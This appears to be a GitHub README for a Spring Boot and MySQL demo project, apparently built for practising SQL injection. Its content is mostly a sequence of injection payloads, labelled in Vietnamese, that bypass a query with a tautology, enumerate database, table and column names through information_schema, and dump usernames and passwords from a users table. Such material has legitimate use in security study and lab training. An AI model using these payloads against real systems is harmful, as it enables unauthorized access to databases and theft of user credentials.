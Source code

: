 # DatabseInjection
## SPRING BOOT PROJECT
Use MySQL database, the structure of database as the image below(like SecurityandEncryption project absolutely)


----lấy ra tất cả các trường: 
	'' or 1='1'




----------lấy ra tên của database: 
		''union select 3,table_schema,4 from information_schema.tables union select 5,'6',7
			
		

----------lấy ra tên của bảng: 
	
	''union select 3,table_name,4 from information_schema.tables where table_schema='applicationdomain' union select 5,6,'7'
	

-----------lấy ra các trường trong bảng: 
		''union select 3,column_name,4 from information_schema.columns where table_name='users' union select 5,6,'7'
--------------lấy ra đầy đủ tài khoản: 
		''union all select 3,username,password from applicationdomain.users union all select 5,'6','7'
    
![diagram](https://user-images.githubusercontent.com/64321224/127884163-5ba7373c-0a7b-4bad-935a-943df2fcd676.png)
